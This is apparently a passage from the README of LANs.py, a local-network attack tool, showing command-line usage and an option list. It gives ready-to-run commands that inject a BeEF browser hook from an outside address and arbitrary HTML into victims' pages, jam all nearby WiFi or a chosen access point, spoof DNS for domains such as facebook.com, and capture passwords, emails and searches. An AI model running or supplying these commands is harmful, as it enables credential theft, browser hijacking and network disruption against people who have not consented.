 #### Aggressive usage:

```shell
python LANs.py -v -d -p -n -na -set -a -r 80.87.128.67 -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```


#### Jam all WiFi networks:

```shell
python LANs.py --jam
```


#### Jam just one access point (router)
```shell
python Lans.py --jam --accesspoint 01:MA:C0:AD:DY
```

### All options

#### Normal Usage:

  * `-b BEEF_HOOK_URL`: Copy the BeEF hook URL to inject it into every page the victim visits, eg: `-b http://192.168.1.10:3000/hook.js`
  * `-c 'HTML CODE'`: Inject arbitrary HTML code into pages the victim visits; include the quotes when selecting HTML to inject
  * `-d`: Open an xterm with driftnet to see all images they view
  * `-dns DOMAIN`: Spoof the DNS of DOMAIN. e.g. `-dns facebook.com` will DNS spoof every DNS request to facebook.com or subdomain.facebook.com
  * `-a`: Spoof every DNS response the victim makes, effectively creating a captive portal page; `-r` can be used with this
  * `-r IPADDRESS`: Only to be used with `-dns DOMAIN`; redirect the user to this `IPADDRESS` when they visit `DOMAIN`
  * `-u`: Print URLs visited; truncate at 150 characters and filter image/css/js/woff/svg urls
  * `-i INTERFACE`: Specify interface; default is the first interface in `ip route`, eg: `-i wlan0`
  * `-ip IPADDRESS`: Target this IP address
  * `-n`: Perform a quick nmap scan on the target
  * `-na`: Perform an aggressive nmap scan in the background and output to [victim IP address].nmap.txt
  * `-p`: Print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received
  * `-pcap PCAP_FILE`: Parse through all the packets in a pcap file; requires the `-ip IPADDRESS` flag
  * `-rmac ROUTER_MAC`: Enter router MAC here if you're having trouble getting the script to automatically fetch it
  * `-rip ROUTER_IP`: Enter router IP here if you're having trouble getting the script to automatically fetch it
  * `-v`: Show verbose URLs which do not truncate at 150 characters like `-u`
  * `--jam`: Jam all or some 2.4GHz wireless access points and clients in range; use arguments below in conjunction with this argument if necessary

#### WiFi jamming:
